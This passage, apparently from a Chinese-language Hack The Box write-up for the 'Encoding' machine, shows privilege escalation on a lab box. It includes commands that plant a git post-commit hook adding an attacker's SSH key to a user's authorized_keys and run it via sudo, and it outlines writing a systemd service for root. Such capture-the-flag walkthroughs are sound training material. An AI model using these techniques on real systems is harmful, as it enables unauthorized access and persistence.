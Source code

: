 但除了 `.git` 目录外，就没有其他可写入的地方了，但git-commit.sh 却支持我们add以及commit.这里试图用git来做一些绕过。这里有两种方法，一种是hook的方法([https://git-scm.com/book/zh/v2/自定义-Git-Git-钩子](https://git-scm.com/book/zh/v2/%E8%87%AA%E5%AE%9A%E4%B9%89-Git-Git-%E9%92%A9%E5%AD%90))， 一种是attribute的方法（[https://git-scm.com/book/en/v2/Customizing-Git-Git-Attributes](https://git-scm.com/book/en/v2/Customizing-Git-Git-Attributes) 用了filter指定可执行文件）。这里我先用hook的方法。

## User Flag：post-commit hook

这里我们用post-commit

![20230423](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230423_8.png)

1. 在 `/tmp` 目录下用ssh-keygen新生成一对 `ssh-keygen -t ed25519 -f htb  -C "me@htb"`
2. 新增一个hook（记得给post-commit修改对应权限 `chmod +x .git/hooks/post-commit`）

```python
echo -e 'mkdir -p /home/svc/.ssh\necho "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILLhHmaOAjmhtwqsT4hfOlcO1WiZFYbyoAAxsYb+EzkV me@htb" >> /home/svc/.ssh/authorized_keys\nchmod 600 /home/svc/.ssh/authorized_keys' | tee .git/hooks/post-commit
```

1. 制造触发post-commit条件：创建一个文件变动。这里用： `git --work-tree /tm个p/ add /tmp/qwe`
2. 用svc用户身份执行命令，触发post-commit： `sudo -u svc /var/www/image/scripts/git-commit.sh`
3. `ssh -i /tmp/htb svc@haxtables.htb`  拿到user flag

## Root Flag

查看已有权限：

```python
svc@encoding:~$ sudo -l
sudo -l
Matching Defaults entries for svc on encoding:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on encoding:
    (root) NOPASSWD: /usr/bin/systemctl restart 
```

参考[https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740) 写对应的service

先确认能否在 `/etc/systemd/system` 下写服务，用 `getfacl` 命令确认只有写执行。然后写个service，用root身份执行就是。

## Reference：

- [https://github.com/tiangolo/fastapi/issues/1788](https://github.com/tiangolo/fastapi/issues/1788)
- [https://0xdf.gitlab.io/2023/04/15/htb-encoding.html#ssrf-in-haxtableshtb](https://0xdf.gitlab.io/2023/04/15/htb-encoding.html#ssrf-in-haxtableshtb)
- [https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740)